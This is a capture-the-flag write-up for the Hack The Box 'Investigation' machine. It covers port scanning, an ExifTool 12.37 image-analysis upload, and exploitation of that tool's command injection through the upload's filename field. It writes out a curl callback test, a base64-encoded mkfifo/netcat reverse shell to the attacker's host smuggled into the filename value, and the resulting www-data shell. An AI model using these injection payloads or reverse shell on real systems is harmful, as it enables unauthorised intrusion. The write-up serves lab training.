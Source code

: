 # HTB - Investigation
# Start: 28/02/2023
# IP 10.10.11.197

## Info gathering
### Nmap
```
 nmap -sV -sC investigation.htb -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-28 14:52 GMT
Nmap scan report for investigation.htb (10.10.11.197)
Host is up (0.013s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f1e6306aa6ebbcc0d19d4152674c6d9 (RSA)
|   256 274520add2faa73a8373d97c79abf30b (ECDSA)
|_  256 4245eb916e21020617b2748bc5834fe0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://eforenzics.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
6969/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
|_http-title: Directory listing for /
Service Info: Host: eforenzics.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Interesting:
- Redirect to eforenzics.htb
- secondary http server with directory listing

adding the redirect to host file, no change in nmap

### WebContent
#### http://eforenzics.htb/

##### /service.html
allows for a .jpg file to be uploaded and returns a link to `/analysed_images/`, a sample output is as follows
```
ExifTool Version Number         : 12.37
File Name                       : White-faced Saki Monkey image.jpg
Directory                       : .
File Size                       : 7.4 KiB
File Modification Date/Time     : 2023:02:28 18:43:27+00:00
File Access Date/Time           : 2023:02:28 18:43:27+00:00
File Inode Change Date/Time     : 2023:02:28 18:43:27+00:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Exif Byte Order                 : Little-endian (Intel, II)
Software                        : Google
Exif Version                    : 0220
Exif Image Width                : 275
Exif Image Height               : 183
Image Width                     : 275
Image Height                    : 183
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 275x183
Megapixels                      : 0.050
```
The tool used to generate is listed at the top, ExifTool v12.37
Interesting:
- Exiftool 12.37 is vunerable to command injection < 12.38 (https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429)


Other process run:
- gobuster returned nothing interesting
#### SimpleHTTP port 6969
Interesting:
- Contains 2 files, one is empty (analyzed log)
- The other is some sort of message file, using an online .msg reader, there is one zip attachment with a windows log file (.evtx)

### Event Logs
Interesting:
- Domain:EFORENZICS-DI
- accounts: SMorton,AAnderson,Administrator,

## Exploiting
its enough to upload one image and save it into burpsuite repeater so you can edit the filename field within the form-data,
to confirm the vulnerability was exploitable i used `filename="echo 'curl 10.10.14.70:8000' | bash |"` which did indeed call back to my host.

if we add any other pipes to the command e.g. > the command will fail to run, however we can pass a b64 encoded command, pipe it to the base64 -d command to decode and pipe the result into bash to run it, which avoids the other pipes breaking it.

```
curl 10.10.14.70:8000/?d=$(rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.70 4444 >/tmp/f)
b64 encoded:
Y3VybCAxMC4xMC4xNC43MDo4MDAwLz9kPSQocm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNzAgNDQ0NCA+L3RtcC9mKQ==

filename="echo 'Y3VybCAxMC4xMC4xNC43MDo4MDAwLz9kPSQocm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuNzAgNDQ0NCA+L3RtcC9mKQ==' | base64 -d | bash |"

```

```
nc -lvnp 4444                                            
Listening on 0.0.0.0 4444
Connection received on 10.10.11.197 33714
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data


```

We have internal access to the box!
